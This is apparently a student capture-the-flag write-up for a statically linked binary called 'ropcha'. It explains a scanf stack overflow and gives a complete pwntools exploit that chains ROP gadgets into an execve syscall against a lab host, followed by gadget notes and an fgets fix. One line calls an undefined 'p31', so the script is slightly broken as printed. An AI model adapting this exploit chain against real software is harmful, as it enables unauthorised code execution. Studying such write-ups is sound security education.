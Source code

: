 ropcha
==============

Overview
--------
The given program protects a file containing the flag by only printing its content if the user manages to insert 100000000 random ascii captchas in 5 seconds.

Vulnerability
-------------
Before the start of the captcha challenge the program prompts the user for his or her name and stores that input in a buffer to display a personalised welcome message containing that name. For reading the input `scanf` is used which does not do any length checks. This leaves the door open for buffer overflow attacks.

Exploitation
------------
Since the this challenge was about return oriented programming I knew that I had to get some gadgets so I took a look at `file ./ropcha` and found that it was statically linked. Next I got myself a list of all the available gadgets by calling `ROPgadget --binary ./ropcha > gadgets.txt`. After reading the provided documentation about syscalls and the `execve` call I had a general shape in mind of what I had to do to the `getflag`. First I had to fill some registers by putting the needed value on the stack preceded by the address of a gadget that would pop that value into the register. I tried a little and found that doing this was easy but there was still an unanswered question. Where should I put the string with the executables file name and how can I get this locations address which would go into the ebx register. I remembered the tutorial from class and how Marco was able to change the contents of a global variable so I looked at his writeup on github and basically mirrored his approach with the biggest difference being that I had to do so multiple times since the value I wanted to write was larger than four bytes. So I found myself the address of a global char buffer which was large enough to hold my string by calling `objdump -D ./ropcha | grep -E "<msg_ok>"` and greped for some more gadgets. The rest was just concatenating the payload together in a way that would first write the file name to said location, pop the syscall arguments into the right registers and then make the syscall.  

Here is my exploit script:

    #!/usr/bin/python2
    import sys
    from pwn import *


    str_loc = 0x080f1230
    null = p32(0x00000000)
    call_code = p32(0x0000000b)

    pop_eax = p32(0x080bd8c6)
    pop_ebx = p32(0x080481d1)
    pop_edx = p32(0x0806f6bb)
    pop_edx_ecx_ebx = p32(0x0806f6e1)
    mov_ptr_edx_eax = p32(0x08057755)
    syscall = p31(0x080499d3)

    payload = 'A'*28 \
                + pop_edx + p32(str_loc) \
                + pop_eax + './ge' \
                + mov_ptr_edx_eax \
                + pop_edx + p32(str_loc + 4) \
                + pop_eax + 'tfla' \
                + mov_ptr_edx_eax \
                + pop_edx + p32(str_loc + 8) \
                + pop_eax + 'g\0\0\0' \
                + mov_ptr_edx_eax \
                + pop_eax + call_code \
                + pop_edx_ecx_ebx + null + null + p32(str_loc) \
                + syscall


    def main():
        if len(sys.argv) > 1:
            r = remote('10.3.0.5', 31337)
        else:
            r = process("./ropcha")
        r.sendline(payload)
        r.interactive()


    if __name__ == '__main__':
        main()

And here are the notes I took while searching for gadgets:

    0x080bd8c6 : pop eax ; ret
    0x080481d1 : pop ebx ; ret
    0x0806f6bb : pop edx ; ret
    0x0806f6e1 : pop edx ; pop ecx ; pop ebx ; ret
    0x080499d3 : int 0x80
    0x08057755 : mov dword ptr [edx], eax ; ret

    080f1120 <msg_error>
    080f1160 <msg_banner>
    080f11ec <msg_name>
    080f1200 <msg_numcaptcha>
    080f1218 <msg_question>
    080f1230 <msg_ok>
    080f1240 <msg_nope>
    080f1260 <msg_welldone>
    080f12a0 <msg_fail>

Solution
--------

    - scanf("%[^\n]s", name);
    + fgets(name, NAME_LENGTH, stdin);

This approach only reads as many bytes as the second argument specifies minus one. Another option would be to not personalise the message so the program doesn't write any user input in a potentially overflowing buffer. In both cases the ability to write arbitrary things onto the stack would be cut out of the program.
